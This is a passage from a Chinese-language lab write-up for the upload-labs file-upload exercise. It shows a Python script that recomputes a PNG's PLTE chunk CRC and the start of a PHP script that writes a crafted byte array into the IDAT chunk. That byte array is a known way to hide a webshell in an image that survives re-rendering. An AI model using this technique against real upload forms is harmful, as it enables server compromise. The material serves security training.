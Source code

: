     2. 计算 PLTE 数据块的 CRC 脚本

        ```python
        import binascii
        import re

        png = open(r'2.png','rb')
        a = png.read()
        png.close()
        hexstr = binascii.b2a_hex(a)

        ''' PLTE crc '''
        data =  '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
        crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
        print hex(crc)
        ```
        运行结果 `526579b0`

    3. 修改 CRC 值

        ![image](../../../img/渗透/实验/upload-labs/15.png)

- **写入IDAT数据块**

    这里有国外大牛写的脚本,直接拿来运行即可.
    ```php
    <?php
    $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
            0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
            0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
            0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
            0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
            0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
            0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
            0x66, 0x44, 0x50, 0x33);



    $img = imagecreatetruecolor(32, 32);

    for ($y = 0; $y < sizeof($p); $y += 3) {
    $r = $p[$y];
    $g = $p[$y+1];
    $b = $p[$y+2];
    $color = imagecolorallocate($img, $r, $g, $b);
    imagesetpixel($img, round($y / 3), 0, $color);
    }

